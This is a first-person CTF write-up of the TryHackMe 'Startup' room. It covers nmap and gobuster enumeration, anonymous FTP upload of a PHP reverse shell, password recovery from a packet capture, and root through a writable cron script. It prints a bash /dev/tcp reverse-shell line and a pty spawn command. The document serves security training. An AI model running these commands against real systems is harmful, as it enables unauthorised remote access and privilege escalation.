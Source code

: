 # TryHackMe: Startup CTF Writeup

## Introduction

This is my first CTF writeup. It will cover on how I did the enumeration, exploitation and privilege escalation. The challenge is rated easy. This room is about a startup called Spice Hut company who are worried about their security and are unsure if their developers are doing it right. So our job as pentester is to find root and will do just that.


## Scanning with Nmap 

First let's scan with nmap and also checking out as many ports as possible at same time so nothing is missed out. 

Syntax- nmap -sV -sC -p- IP

After scanning there are 3 ports that are open, these ports are 21,22 and 80.

![Nmap results 1](assets/nmap1.png)
![Nmap results 2](assets/nmap2.png)

However if you notice there's anonymous login allowed in ftp port which means we can access it without requiring specific user account.

## FTP enumeration

After logging as Anonymous in ftp port, there are apparently 2 files with one of them being text file. Perhaps we will find something useful from these two files. 

Syntax- ftp IP

![FTP enumeration](assets/ftp.png)

When checking there was nothing important found in these two files, while the text file had a name but that's still vague so before we can try anything lets check the browser.

![Website](assets/website.png)

The browser didn't have anything, using dev tools there was no giveaway even though the dev comment mentions they haven't updated anything yet.

Unfortunately we are still at Dead end with nothing useful even after getting ftp access and finding files. Instead what we can do is move on to Directory Enumeration with Gobuster. 

## Directory enumeration with GoBuster

Let's use gobuster to find out if we can find any files in the webdirectory which we couldn't find through ftp. 

Syntax- gobuster dir -u "<IP>" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Gobuster Enumeration 1](assets/gobuster1.png)
![Gobuster Enumeration 1](assets/gobuster2.png)

After searching through gobuster, there is files directory. In that directory it has ftp which was found same as in the port. This confirmed the FTP directory was accessible via the web server.

## Web enumeration

Now after checking through the webdirectory in the browser, it had same files that was found in ftp thus there might be more to this.

![Web enumeration](assets/webdirectory.png)

when checking ftp directory there was nothing in there, and if we remember the ftp directory in the port 21, There was full permission for ftp which can only mean one thing.

![Web enumeration](assets/ftp_directory.png)

What we can do here is to upload php reverse shell into ftp directory and hopefully get ssh access.

## Reverse Shell Exploit

After uploading php reverse shell, we will then start a listener from our side. We will access the php reverse shell.

Syntax- put php-reverse-shell.php

![Reverse Shell Exploit](assets/php_reverse_shell.png)
![Reverse Shell Exploit](assets/webshell_payload.png)

And The reverse shell has worked, now we just spawn the bash shell with python to make it easier navigating files.

Syntax- python3 -c 'import pty; pty.spawn("/bin/bash")'


![Reverse Shell Exploit](assets/ssh_access.png)
![Reverse Shell Exploit](assets/TTY.png)

When checking the files in current directory, there's a text file.

The recipe.txt file has the answer for the first task question.

![Reverse Shell Exploit](assets/task1_answer.png)

Next task we will need to find out user.txt, so we need to find a user account to access the flag, lets check navigate around and check if theres any name.

## Privilege Escalation

After navigating around the files, there are 2 notable mentions, first is incidents which has .pcapng in it which is really suspicious and it can be checked with wireshark to see if we can know anything useful about it. Other is in home directory, it has name as lennie which is obviously blocked from accessing it however that's probably the user we will need to get access for the next flag.

![Priv-Esc](assets/suspicious_files.png)

first lets download the .pcapng file and check with wireshark. 

Syntax- python3 -m http.server 8000 

        wget <local_IP>:8000/filename

![Priv-Esc](assets/suspicious_file_download.png)


Apparently the attacker had made an attempt before to access before and did it similar as we are doing it however they didn't get the access while trying to brute force but we stil get to know the password they attempted to use. Which could probably what we need for lennie account we had found.

![Priv-Esc](assets/wireshark.png)

We will try to access ssh credentials of lennie account and see if it works. Which it did and we are in.

![Priv-Esc](assets/user_access.png)

Not only that we are in directory where user flag is for the task 2 question.

![Priv-Esc](assets/user_flag.png)

With this flag done, now we only have one more flag left and its for root which we were asked to reach. For that, we will now navigate to see if theres any clues to escalate further.

I have checked in lennie's directory to see if theres any giveaway, there was some text files but they didn't mention anything important we need to know. However there was script folder, in that apparently there was planner.sh file and that file was run by root. This is very big clue and not only that.

![Priv-Esc](assets/scripts.png)
![Priv-Esc](assets/check_permissions1.png)

In that file there was another .sh and after checking the content, i found the permissions of print.sh has full permissions for the user account. 

![Priv-Esc](assets/user_permissions.png)


There's one more thing to note in user's directory, the text file has been running every minute as i rechecked permissions again, which means this is a cronjob and that means if we drop a reverse shell inside print.sh file which has full permissions for the user account we are using and then let it run after being modified which we can then do a listener to confirm if we are able to get the root privileges or not.

![Priv-Esc](assets/cronjob.png)

First, we will modify the print.sh with nano editor and then listen in our local machine with netcat and wait for abit.

Syntax- bash -i >& /dev/tcp/Local_IP/port 0>&1

![Priv-Esc](assets/reverse-shell.png)

And we are done, we have got the root access to the target and so is the flag for our final task.

![Priv-Esc](assets/root_access.png)
![Priv-Esc](assets/root_flag.png)

## Conclusion

This CTF tests the basics very well and understanding how to leverage FTP Anonymous access as well as exploit cronjob for privilege escalation. Thank you for reading this and hope it helps others.









